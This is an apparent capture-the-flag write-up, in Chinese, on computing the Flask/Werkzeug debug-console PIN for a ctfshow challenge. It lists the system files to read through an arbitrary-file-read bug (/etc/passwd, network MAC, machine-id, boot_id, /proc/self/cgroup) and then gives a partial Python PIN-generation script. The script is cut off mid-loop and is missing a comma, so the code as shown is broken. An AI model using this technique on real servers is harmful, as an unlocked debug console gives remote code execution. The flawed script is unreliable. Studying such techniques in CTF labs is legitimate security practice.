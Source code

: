 ```yaml
---
id: ctfshow-常用姿势
title: ctfshow-常用姿势
sidebar_position: 19
---
```




## 801-flask算pin

输入不存在的值使其报错，可以看到是flask开启了debug模式的界面，将鼠标移到任意一行上就可以看到右边有个terminal的标记，点击要我们输入pin码，这个pin码在跑flask的时候会给在终端里



本题考点就是利用任意文件读获取信息再利用脚本来跑出这个pin码

计算pin所需要的值为：

1. username：
   flask所登录的用户名，可以读`/etc/passwd` 或者 `getpass.getuser()`

2. modname：
   默认为flask.app

3. appname：
   默认为Flask
   `getattr(app, “name”, app.class.name)`

4. moddir：
   flask库下app.py的绝对路径，可通过报错得到 或者 `getattr(mod,"__file__",None)`

5. uuidnode：
   当前网络的mac地址的十进制数，读网卡:
   如`/sys/class/net/ens0/address` 或 `/sys/class/net/eth0/address`

6. machine_id：
   docker机器id
   linux的id一般存放于`/etc/machine-id` 或`/proc/sys/kernel/random/boot_id`
   docker的则读取`/proc/self/cgroup`取`/docker/`后的字符


   （但在本题要读`/proc/sys/kernel/random/boot_id`
   和`/proc/self/cgroup`然后将其拼接起来）



脚本附上：

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'root'# /etc/passwd
    'flask.app',# 默认值
    'Flask',# 默认值
    '/usr/local/lib/python3.8/site-packages/flask/app.py' # 报错得到
]

private_bits = [
    '2485377585129',#  /sys/class/net/ens0/address or /sys/class/net/eth0/address
    '653dc458-4634-42b1-9a7a-b22a082e1fce18de34833d56b14e3178cdffe0c6fd87895b75d5affd11b0ff6d8a3340f26d6d'#  /proc/sys/kernel/random/boot_id + /proc/self/cgroup
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
```